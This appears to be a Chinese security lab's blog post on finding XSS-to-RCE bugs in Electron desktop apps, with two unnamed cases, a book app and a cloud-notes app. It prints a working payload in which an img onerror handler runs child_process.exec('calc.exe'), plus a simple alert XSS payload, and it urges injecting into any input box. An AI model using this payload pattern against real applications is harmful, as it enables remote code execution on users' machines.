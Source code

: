 #  有手就能捡到的0day漏洞   
原创 CVES实验室  山海之关   2023-11-25 18:36  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/wzxJic4mN5MOgrDicQSy08LibazicG9pp6p2PRUOfUHm6rMMk8QyhEMlVPHzkXeOoovhaZgY0XOiaSlSZtvGtuiaSVug/640?wx_fmt=jpeg "")  
  
**CVES实验室**  
  
      **“CVES实验室”(www.cves.io)由团队旗下SRC组与渗透组合并而成，专注于漏洞挖掘、渗透测试与情报分析等方向。近年来我们报送漏洞总数已达八万余个，其中包含多个部级单位、多个通信运营商、Apache、Nginx、Thinkphp等，获得CNVD证书、CVE编号数百个，在不同规模的攻防演练活动中获奖无数，协助有关部门破获多起省督级别的案件。**  
  
**前言**  
  
**CFW跑路事件闹得沸沸扬扬，在群里看到有搞安全的小伙伴吐槽了下CFW经常出洞，于是想到了去年那个CFW RCE，那个洞和之前蚁剑RCE一样的，都是基于electron组件的XSS2RCE，原理其实没啥好说的。总结一下就是如果你遇到了gui好看的windows应用，那么只要其功能有框你就插，有参数你就改即可。**  
  
**所以，理论上来讲，只要用了electron（旧版本）组件开发的应用都会存在这个漏洞呢？带着这个疑问，我找到了electron官网的客户案例：**  
```
http://www.electronjs.org/apps
```  
  
**全测是不可能全测的，也没必要全测，也可以通过搜索引擎找到使用了electron组件的国产应用来测。**  
  
**漏洞1-某图书软件**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wzxJic4mN5MP5sQffZYLLa6zqPoHp5V6eogMDsjzYcBPvWDtoB7ZXN7X9EOhFKuk5jnW9okarcicaZf89SKx81zA/640?wx_fmt=png&from=appmsg "")  
  
**xss2rce的payload：**  
```
<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
```  
  
**导入以后，直接点击即可触发：**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wzxJic4mN5MP5sQffZYLLa6zqPoHp5V6e36Mg5ZFuJtNQ2kREPHmM6zWlt80ibQeOWvEBAiaHML6rC9wARXMH36xw/640?wx_fmt=png&from=appmsg "")  
  
**漏洞2-某云笔记**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wzxJic4mN5MP5sQffZYLLa6zqPoHp5V6enrShvXHic1Zbknfia7lvFftCHMFzWDU90CLsT8bHIXiblzIZN9tR0N6Cw/640?wx_fmt=png&from=appmsg "")  
  
**xss的payload：**  
```
<img src=x onerror="javascript:alert(/xss/)">
```  
  
**没想到的是移动端也能弹（指定是非electron问题了）：**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wzxJic4mN5MP5sQffZYLLa6zqPoHp5V6eotVPNXHI1ooBC44F63jq27LPXwpewcXKusyyyllW44t4vvqS4eMahA/640?wx_fmt=png&from=appmsg "")  
  
**xss2rce没成功，应该是有沙箱，逆向师傅也没分析出个所以然，所以，到此为止。**  
  
